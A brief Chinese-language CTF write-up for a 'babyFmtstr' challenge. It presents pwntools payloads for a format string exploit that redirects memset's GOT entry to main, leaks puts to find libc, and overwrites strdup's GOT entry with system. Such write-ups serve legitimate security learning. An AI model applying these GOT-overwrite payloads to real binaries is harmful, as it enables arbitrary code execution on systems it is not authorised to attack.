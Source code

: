 # babyFmtstr  
![](./pics/chc.png)
发现在结束格式化字符串漏洞的函数后在紧接着的函数中调用了memset，可以把menset.got改为main函数地址达到重复利用漏洞的目的。  
```
payload_1 = b"%14c%11$hhn%133c%12$hhnA" + p64(memset_got+1)+p64(memset_got) 
```
第二次利用漏洞时泄露put函数的地址得到libcbase。  
```
payload_2=b'aaaa%9$s'+p64(puts_got)
p.sendlineafter(b"please input name:\n",payload_2)
p.recvuntil(b'aaaa')
pause()
puts_addr=u64(p.recv(6).ljust(8,b'\x00'))
```
第三次将strduo.got改为system地址。  
```
system_addr=libcbase+libc.dump('system')
print(hex(system_addr))
x = system_addr >>16 & 0xffff
y = system_addr & 0xffff
if x>y:
    payload_3=flat(b'%',str(y).encode(),b'c%12$hn%',str(x-y).encode(),b'c%13$hn').ljust(32,b'a')
    payload_3+=flat(strdup_got,strdup_got+2)
else:
    payload_3=flat(b'%',str(x).encode(),b'c%12$hn%',str(y-x).encode(),b'c%13$hn').ljust(32,b'a')
    payload_3+=flat(strdup_got+2,strdup_got)
```